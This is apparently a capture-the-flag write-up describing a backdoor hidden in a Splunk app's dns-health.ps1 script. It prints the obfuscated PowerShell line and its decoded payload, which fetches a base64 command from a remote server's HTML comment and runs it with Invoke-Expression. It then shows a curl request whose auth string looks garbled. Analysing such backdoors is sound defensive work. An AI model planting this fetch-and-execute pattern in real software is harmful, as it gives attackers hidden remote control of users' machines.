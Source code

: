 # Backdoored Splunk II
You've probably seen Splunk being used for good, but have you seen it used for evil?

NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag.


## Solution
In `bin/powershell`, there is a file called `dns-health.ps1` which contains the backdoor. The line looked very off due to the strange capitalization in addition to numbers that looked a lot like ASCII numbers.

```powershell
[STRinG]::JoIN('',[chAr[]](36 , 79 ,83 , 86, 69 ,82 ,32, 61,32,39 , 105, 101, 120 , 32 , 40 ,91 ,83 , 121 , 115 , 116,101 , 109, 46,84 ,101 ,120 [...]
```
I decoded it, which gave me a base64 encoded string, which was decoded again:

```powershell
b'# $PORT below is dynamic to the running service of the `Start` button\r\n@($html = (Invoke-WebRequest http://challenge.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dGhpc19pc190aGVfaHR0cF9zZXJ2ZXJfc2VjcmV0")} -UseBasicParsing).Content\r\nif ($html -match \'<!--(.*?)-->\') {\r\n    $value = $matches[1]\r\n    $command = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($value))\r\n    Invoke-Expression $command\r\n})'
```

Then, I simply had to send this request to the server using curl.
`curl -H "Authorization: Basic YmFzaWMyRvb3JmjNRvb3J6dGh2c3E5wc190aGVaSF0sY9elpYSjJaWEpfr2Vj`itVjAi" http://challenge.ctf.games:30576`